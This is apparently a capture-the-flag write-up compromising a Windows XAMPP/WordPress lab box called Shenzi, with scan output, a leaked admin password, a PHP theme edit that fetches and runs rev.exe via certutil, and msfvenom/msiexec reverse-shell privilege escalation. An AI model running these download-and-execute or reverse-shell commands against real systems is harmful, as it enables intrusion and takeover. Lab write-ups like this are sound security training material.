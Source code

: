 #Pwned! 
```IP
192.168.171.55
```
## Nmap
```
PORT     STATE SERVICE       REASON          VERSION                                    21/tcp   open  ftp           syn-ack ttl 125 FileZilla ftpd 0.9.41 beta   
| ftp-syst:                                                                             |_  SYST: UNIX emulated by FileZilla                                                    80/tcp   open  http          syn-ack ttl 125 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.171.55/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-favicon: Unknown favicon MD5: 56F7C04657931F2D0B79371B2D6E9820
135/tcp  open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      syn-ack ttl 125 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-title: Welcome to XAMPP
|_Requested resource was https://192.168.171.55/dashboard/ 
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
| SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6 
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds? syn-ack ttl 125
3306/tcp open  mysql?        syn-ack ttl 125
| fingerprint-strings: 
|   DNSStatusRequestTCP, Help, Kerberos, LANDesk-RC, LPDString, NULL, RPCCheck, SMBProgNeg, TLSSessionReq, X11Probe:  
|_    Host '192.168.45.201' is not allowed to connect to this MariaDB server
| mysql-info: 
|_  MySQL Error: Host '192.168.45.201' is not allowed to connect to this MariaDB server
```

## Nmap UDP


# Enumeration

## HTTP
### Technologies
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028093827.png?raw=true)
img
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028093638.png?raw=true)
phpinfo.php
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028093618.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028093711.png?raw=true)
xampp
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028093746.png?raw=true)
Webdav arbitrary file upload not working
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028100413.png?raw=true)
Remember to use the key words obtained in EVERYTHING even directories:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028110304.png?raw=true)
with admin:FeltHeadwallWight357 we can enter in the wp-admin subdirectory

we can edit php files in the appearance utility
```
<?php $exec = system('certutil -urlcache -f http://192.168.45.201:8000/rev.exe rev.exe && rev.exe', $val) ?>
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028113157.png?raw=true)
we create our revshell ang get a shell
## SMB
enum4linux
```
enum4linux -a -u "guest" -p "" 192.168.171.55
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028095228.png?raw=true)
with a non existant user and password we get
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028100934.png?raw=true)

Files in Shenzi share
http://localhost/test.php
http://localhost/myhome/test.php
 A password file containing credentials and some tokens
```
 522b574a21767922222439295b4b2975
```
```

```
 further enumeration reveals that 
 ![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028102220.png?raw=true)
# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028113229.png?raw=true)


## Automated

### Peass
unquoted and allaccess files on startup
C:\Users\shenzi\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```
iwr http://192.168.45.201:8000/rev1234.exe -outfile .\Start.exe
```
```
copy Start.exe C:\Users\shenzi\AppData\Roaming\Microsoft\Windows\
```
C:\Users\shenzi\AppData\Local\Microsoft\OneDrive\OneDrive.exe
Packages msi are installed automatically
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028160908.png?raw=true)


```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.201 LPORT=12134 -f msi -o shell.msi
```
```
$pkg = 'C:\Users\shenzi\shell.msi'
```
```
start-process msiexec "/i $pkg /qn"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028161423.png?raw=true)

### Mimikatz


